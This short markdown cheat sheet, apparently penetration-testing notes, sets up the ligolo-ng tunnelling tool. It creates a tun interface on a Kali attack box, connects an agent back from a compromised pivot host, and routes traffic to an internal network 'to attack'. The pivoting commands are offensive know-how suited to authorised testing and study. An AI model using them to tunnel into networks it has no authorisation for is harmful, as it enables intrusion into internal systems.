 # ligolo-ng

Download proxy and agent

Create tun interface on the Proxy Server (Attackbox):

```bash
sudo ip tuntap add user kali mode tun ligolo
```

Enable the interface:

```bash
sudo ip link set ligolo up
```

Now you should see a new ligolo entry after `ifconfig` or `ip -a`

Run proxy (on Attackbox):

```bash
./proxy -selfcert
```

Run agent (on Pivot Host) (use `-ignore-cert` when `-selfcert` is used):

```bash
./agent -connect IP:PORT -ignore-cert
```

Check the available networks in proxy after the agent joins:

```bash
[Agent : root@dmz01] » ifconfig
```

Select the network (to attack) with CIDR notation

Add route:

```bash
sudo ip route add [CIDR notation (172.16.0.0/16)] dev ligolo
```

Start the tunnel:

```bash
[Agent : root@dmz01] » start
INFO[0018] Starting tunnel to root@dmz01 (005056942701)
```
